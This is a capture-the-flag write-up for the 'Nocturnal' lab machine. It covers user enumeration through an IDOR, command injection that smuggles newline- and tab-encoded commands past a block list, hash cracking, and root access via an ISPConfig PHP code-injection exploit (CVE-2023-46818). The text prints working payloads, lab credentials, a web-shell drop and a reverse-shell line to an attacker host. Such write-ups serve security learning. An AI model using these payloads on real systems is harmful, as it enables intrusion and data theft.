


Let's scan the machine
```bash
sudo nmap -v -sC -sV 10.10.11.64 -oN nmap/initial
```
```http
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nocturnal.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Go to the website


Let's see what directories there are
```bash
dirsearch -u http://nocturnal.htb
```


There is a `dump.sql` file located in `/uploads/`. The goal is to download this file.
Register an account


The website allows you to download files


<div style="page-break-after: always;"></div>

When attempting to upload an inappropriate file, we see that we can only upload files of the following types: `pdf`, `doc`, `docx`, `xls`, `xlsx`, `odt`.
After uploading the file, it appears in `Your files`. Clicking on it starts the download. When downloading, the following request is sent:


```http
/view.php?username=dex1d&file=test.pdf
```
Interesting user binding Let's try to create a second account and download a file from my first account:


The file was not found, but all files uploaded by this user were displayed. This means that we have access to all files uploaded by any user.
Let's see if there is a user named `admin` and if they have any uploaded files:
```http
/view.php?username=admin&file=test.pdf
```


Such a user exists, but they have not uploaded anything. Let's search through the users using **Burp Intruder**:
1. Intercept the request and send it to **Intruder**


2. Load the list of common `usernames` `/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt`


3. In `Grep - Match`, add the line `File does not exist.`, as this is the line that is displayed when we encounter an existing user who does not have the file we are looking for. We are looking for `test.pdf`.


4. Launch the attack


The user `amanda` had the file



It contained the following:
```
Dear Amanda,
Nocturnal has set the following temporary password for you: arHkG7HAI68X8s1J. This password has been set for all our services, so it is essential that you change it on your first login to ensure the security of your account and our infrastructure.
The file has been created and provided by Nocturnal's IT team. If you have any questions or need additional assistance during the password change process, please do not hesitate to contact us.
Remember that maintaining the security of your credentials is paramount to protecting your information and that of the company. We appreciate your prompt attention to this matter.

Yours sincerely,
Nocturnal's IT team
```
There is a password for the user `amanda`
```Password
arHkG7HAI68X8s1J
```
Let's log in with it


We can go to the admin panel. Let's do it


Create a backup and download it (the password is the same as for `amanda`):


Unzip the archive
```bash
unzip -q backup_2025-07-30.zip -d backup
```
It will ask for a password. It is the same as the one entered during download


Let's see what is written in `dashboard.php`:


There is a database `nocturnal_database.db`
Let's see what is written in `admin.php`:


The following characters are blocked: ‘;’, ‘&’, ‘|’, ‘$’, ‘ ’, ‘{’, ‘}’, ‘&&’.


When creating a backup, the site says that you need to come up with a password for it. The password we set is assigned to the directory using a shell command. Since certain characters are blocked, we cannot go beyond the limits. But `\n` (line break) and `\t` (tab) are not blocked.
Let's request a backup and intercept the request:


Let's send it to **Repeater**. The task is to get a dump of the `nocturnal_database.db` database. That is, we need the following command:
```bash
sqlite3 /var/www/nocturnal_database/nocturnal_database.db .dump
```
However, to execute it in `$command`, you need to use `bash -c`, so the final command will be as follows:
```bash
bash -c “sqlite3 /var/www/nocturnal_database/nocturnal_database.db .dump”
```
Since we are embedding this command in a query, spaces must be replaced with `%09`, and line breaks with `%0A`.
**`%09`**: This is the URL encoding for the **tab** character. In the command, it replaces spaces.
**`%0A`**: This is the URL encoding for the **line feed** character. It means the end of the command (pressing Enter).
The request consists of two parts: `password` and `backup`. Since it is important for us to execute the command after `password`, we simply transfer the line after the password itself with the `%0A` character. On the new line, we write the main command for the database dump. After that, we transfer the line again. The result is as follows:
```http
password=test%0A
bash%09-c%09"sqlite3%09/var/www/nocturnal_database/nocturnal_database.db%09.dump"%0A
&backup=
```
Sending a request and seeing the DB dump


```bash
admin:d725aeba143f575736b07e045d8ceebb
amanda:df8b20aa0c935023f99ea58358fb63c4
tobias:55c82b1ccd55ab219b3b109b07d5061d
kavi:f38c de1654b39fea2bd4f72f1ae4cdda
e0Al5:101ad4543a96a7fd84908fd0d802e7db
naggar:c857b738481bd8f43aa2ab7a4ff3812c
test:098f6bcd4621d373cade4e832627b4f6
```
We'll break it hashes:
```bash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hashes
```


Getting the password from `tobias`:
```Password
slowmotionapocalypse
```
Log in to it via SSH


```flag
63f453d2ee2cd1cea9861c54f753a905
```
`tobias` cannot execute commands from `sudo`


<div style="page-break-after: always;"></div>

Let's see what's in the web application directory


Let's see who's busy with this process
```bash
ps aux | grep "/usr/local/ispconfig"
```


Let's see what services are running locally
```bash
netstat -lntp
```



Most likely `ISPConfig` is running on port `8080`. Let's forward it to our host
```bash
ssh -L 18080:127.0.0.1:8080 tobias@nocturnal.htb
```


Let's log in with the following credentials:
```ISPconfig
admin/slowmotionapocalypse
```


<div style="page-break-after: always;"></div>

Let's check the version


**ISPConfig Version: 3.2.10p1**. Let's try to find information about vulnerabilities. We see that it is [CVE-2023-46818](https://pentest-tools.com/vulnerabilities-exploits/ispconfig-php-code-injection_23066).
Let's try to find an [exploit](https://github.com/ajdumanhug/CVE-2023-46818) for it.
Exploiting this vulnerability:
```bash
python3 CVE-2023-46818.py http://127.0.0.1:18080 admin slowmotionapocalypse
```
Getting a `root` shell


```flag
38ad8f9a0ba34b7e332074b6b35b7235
```
<div style="page-break-after: always;"></div>

## How it works
The **ISPConfig** panel allows the administrator to edit `.lng` language files.
The `admin/language_edit.php` form sends `records[key]=value` pairs — this is where our "injected" text goes.

Critical section of code
```PHP
if(isset($_POST['records']) && is_array($_POST['records'])) {
$file_content = "<?php\n";
foreach($_POST['records'] as $key => $val) {
$val = stripslashes($val); // NO filter!
$escaped_val = var_export($val, true); // Generate PHP literal
$file_content .= '$wb['."'$key'".'] = '.$escaped_val.';'."\n";
}
$file_content .= "?>\n";
...
include ISPC_LIB_PATH."/lang/$lang_file"; // The file is immediately included
```
**What happens:**
1. The incoming value is saved in `$val` without any validation (except for the banal `stripslashes`).
2. `var_export()` turns it into PHP literal code **as is**. It is enough to close the line (`';`) and enter any PHP.
3. The generated `.lng` file is immediately `include`-ed - our code is executed in the context of the web server (**www-data**, and even **root** by cron).

> The only condition for operation is the global option
> `admin_allow_langedit = true` (enabled by default).

Example from PoC:
```http
POST /admin/language_edit.php
Content-Type: application/x-www-form-urlencoded
...

lang=en&module=help&lang_file=exploit.lng&
records[%5C]='];system($_GET[cmd]);die;//
```
1. `records[\]` — the key passes the regex `^[a-z0-9_]+$`? — Yes, the backslash is escaped.
2. The value closes the line, adds `system($_GET[cmd]);` and comments the tail.
3. The next `include` yields RCE:
`http://target/admin/help/?cmd=bash+-i+>&+/dev/tcp/attacker/4444`

What `CVE-2023-46818.py` does:
1. Logs in with the admin pair.
2. Selects any language/module.
3. Sends the payload string
`file_put_contents('sh.php', base64_decode('…'));die;#` via `records[]`.
4. Requests `/admin/sh.php` — the file already contains a web shell, the code is executed.
